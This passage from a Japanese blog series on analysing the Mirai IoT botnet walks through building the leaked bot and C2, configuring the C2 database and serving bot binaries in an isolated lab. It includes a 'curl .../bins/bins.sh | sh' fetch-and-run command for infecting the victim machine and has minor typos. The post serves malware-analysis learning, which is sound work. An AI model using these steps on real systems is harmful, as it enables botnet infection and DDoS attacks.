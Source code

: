 ![](https://storage.googleapis.com/zenn-user-upload/68173bbca667-20231009.png)
# 目次

1. [はじめに](#はじめに)
2. [Miraiって？](#Miraiって？)
4. [環境構築](#環境構築)
5. [動的解析](#動的解析)
6. [まとめ](#まとめ)
7. [参考文献](#参考文献)
8. [第二回へつづく](#第二回へつづく)

# はじめに
この記事は3部構成で、これは第一回の記事です。
第一回→動的解析
第二回→ソースコードの解析
第三回→Ghidraによる静的解析

今回は、MiraiというIoT機器を標的に攻撃を行うマルウェアを解析した結果を記しました。第一回の本記事では、Miraiを自身の解析環境に構築して動的解析を行うまでを範囲としています。

※本投稿は悪意のある行為を助長するためのものではなく、あくまでマルウェアの挙動を学習したい方やマルウェア解析者を対象としたものです。また、本投稿は特定の誰かの行動を支持したり批判したりすることは一切なく、常に中立の第三者としての発言に基づいています。

# Miraiって？
-出荷時のデフォルトパスワードとユーザ名を使っているホームルータや防犯カメラのようなIoTデバイスに感染し、ボットネットの一部にする。
-2016年にKrebs On SecurityというウェブサイトをDDおS攻撃する等して流行。
-2016年にAnna-senpaiと名乗る人物がフォーラムにソースコードをリークしており、現在でも調べるとGitHub等でソースコードの閲覧が可能。
-ソースコードが公開されていることもあり、現在でもPastやOMGのような、Miraiの亜種が多く出回っている
-IoTデバイスの脆弱なデフォルトのパスワードとユーザ名を変更することが対策になる。
***
マルウェアのソースコードがリークされることはたまにあるみたいですが、Miraiは有名なマルウェアなので参考にできる情報も多くソースコードの開設もされているので、初心者が解析の練習するにはちょうど良い検体かなと思って選定しました。
ソースコードがどんな経緯でリークしたかは不明ですが、Anna-senpaiと名乗る人物がフォーラムでリークしたそうです。
マルウェアの教科書にも書いてありましたが、Contiというランサムグループがあり、そのグループのランサムのソースコードは金銭のいざこざで揉めてソースコードが流出したそうです。

## Miraiは初心者解析者におすすめ
Miraiの解析は、マルウェアの解析を始めたばかりの人や、これから始める人におすすめです。
なぜならソースコードがリークしているため、自身の解析の答え合わせができるためです。
私自身jrの身ですが、解析を初めてまず困るのは、「自分の解析結果が合っているかわからない」ことです。
アセンブリやデコンパイル結果を今後読めるようになっていくには、ソースコードのどの部分が、GhidraやIDAでどのように見えるかの経験値をためていく必要があると考えています。
Miraiはマルウェアとしての知名度や影響度が大きいので解析できた際のやりがいも大きく、ソースコードと静的解析の照らし合わせができるのでおすすめの検体と言えます。

## 参考にしたサイト
-https://atmarkit.itmedia.co.jp/ait/articles/1611/08/news028.html
-https://github.com/jgamblin/Mirai-Source-Code
-https://qiita.com/ueyasu/items/7eb4640d494576664109
-https://github.com/Glowman554/mirai
-https://en.wikipedia.org/wiki/Mirai_(malware)#:~:text=The%20Mirai%20botnet%20was%20first%20found%20in%20August,host%20OVH%2C%20and%20the%20October%202016%20Dyn%20cyberattack
-マルウェアの教科書

# 環境構築
**動的解析**とはその名の通り、検体を実際に動かしてその挙動を観察することです。
安全に検体を動かせるよう、今回はHyper-V上に解析環境を構築します。

解析環境の構築方法については手順を割愛しますが、構成は以下の通りです。

- REMnux (C2サーバ)
- CentOS (内部ルーター)
- Ubuntu (Victim)

1.
必要なツールのインストール
```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 apache2 -y
```

2.
./mirai/debugフォルダー内にenc.cがある。これをコンパイルしてtable.cに入れる必要がある。
mirai/ディレクトリで以下を実行してコンパイルする
クロスコンパイル関連のエラー出ても無視してOK
実行すると、mirai/debugフォルダーにencというコンパイル済みのバイナリが表示される
```
./build.sh debug telnet
```

3.


## Miraiの方
まずクロスコンパイラを設定する
```
sudo bash ./tools/compilers.sh
```

debugフォルダとreleaseフォルダを作成する
```
sudo bash ./setup.sh
```

これを実行すると、./mirai/deubgにencという名前の実行ファイルが作られる。
```
sudo bash ./build.sh debug telnet
```

botが接続するドメイン名の難読化などに使う
例えば、

```
./debug/enc string example.com
```
![Alt text](image.png)


### C2の設定
mysql-serverを設定する
```
cat ./tools/db.sql | dsudo mysql
sudo systemctl restart mysql
```

以下でmysql-serverにログインする
```
mysql -u root -p
```

USEステートメントでデータベースを選択する
今回はmiraiというデータベースを操作
```
USE database_name;
```

以下を実行してmysqlのrootユーザーのパスワードを設定
```
INSERT INTO users VALUES (NULL, 'root', 'Nodaysoff！', 0, 0, 0, 0, -1, 1, 30, '');
```

./mirai/cnc/main.goを書き換える
```go

```
![Alt text](image-2.png)

## botとC2のビルド
コンパイルする

```
bash ./build.sh debug telnet
bash ./build.sh release telnet
```


## 実行
c2を実行してmysqlの画面を開いて状態をリアルタイムで確認する
```
cd debug
screen -S mirai-cnc sudo ./cnc
```

botを実行
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```

telnetでローカルホストにつなぎ、先ほどmysqlのrootアカウントに設定したパスワードを入力してC2のbotnetにログインする
```
tlenet localhost
```
![Alt text](image-3.png)
![Alt text](image-4.png)


?で攻撃のタイプを確認できる
![Alt text](image-5.png)


バイナリをapache2にインストールする
```
cd release
sudo bash ../apache2.sh
```
上記によって、/var/www/html/binsにbot配布用のバイナリがつくられる

![Alt text](image-6.png)

Victim上で、curl http://<your apache2 ip>/bins/bins.sh |shして、バイナリをダウンロードおよび実行する

![Alt text](image-7.png)

dvrHelperがLinuxの実行ファイルであるELFであり、これは複数のバイナリを
